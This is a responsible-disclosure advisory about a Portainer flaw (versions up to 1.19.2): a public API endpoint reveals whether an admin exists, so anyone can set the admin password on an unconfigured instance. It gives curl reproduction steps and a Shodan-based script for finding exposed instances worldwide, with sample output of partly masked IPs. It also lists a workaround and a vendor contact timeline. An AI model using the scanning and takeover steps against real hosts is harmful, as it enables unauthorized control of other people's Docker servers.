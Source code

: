 Responsible Disclosure

# Portainer - Check if admin already created by a public API endpoint

## PRODUCT DESCRIPTION

[PORTAINER](https://portainer.io) IS AN OPEN-SOURCE LIGHTWEIGHT MANAGEMENT UI WHICH ALLOWS YOU TO EASILY MANAGE YOUR DOCKER HOSTS OR SWARM CLUSTERS

## BACKGROUND

- Portainer until 1.19.2

## VULNERABILITY DETAILS

Portainer provides an API endpoint (/api/users/admin/check) to verify that the admin user is already created. This API endpoint will return 404 if admin was not created and 204 if it was already created. This "feature" allows anyone to receive unauthorized access on the host when the portainer is configured incorrectly.

## PROOF OF CONCEPT

Manual steps to reproduce the vulnerability:

1. docker run --rm -it -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer
2. curl -X GET -s -o /dev/null -w "%{http_code}" http://127.0.0.1:9000/api/users/admin/check
3. If curl return 404, open web-browser and create a admin password. xdg-open http://127.0.0.1:9000

Applying this around the world with shodan:

```bash
git clone git@github.com:lichti/shodan-portainer.git
virtualenv --python python3 .venv
source .venv/bin/activate
pip install -r requirements.txt
export SHODAN_API_KEY=xxxxxxxxxxxxxxxxxxxxxxx
python portainer.py
```

If you has a paid plan, you can use a filters:

```bash
export SHODAN_FILTER = 'country:"BR"'
python portainer.py
```

Output example:

```txt
Country: US | ISP: Digital Ocean | http://142.x.y.158:9001/
Country: CA | ISP: Atlantic.net  | http://45.x.y.165:9000/
Error: skipping 206.x.y.63
```

## WORKAROUND

Forcing the admin password by extra parameter on portainer CLI - [configuration.html#admin-password](https://portainer.readthedocs.io/en/stable/configuration.html#admin-password). On source code [portainer.go#L13-L14](https://github.com/portainer/portainer/blob/develop/api/portainer.go#L13-L14).

## VULNERABILITY DISCLOSURE TIMELINE

**2018-11-19:** Vendor was contacted [#2475](https://github.com/portainer/portainer/issues/2475)
**2018-11-19:** Vendor response and confirm the vulnerability [2475#issuecomment-440104455](https://github.com/portainer/portainer/issues/2475#issuecomment-440104455)

## AUTHOR & REVISION

**Author:** Gustavo Lichti <gustavo.lichti@gmail.com>

**Revision:** 
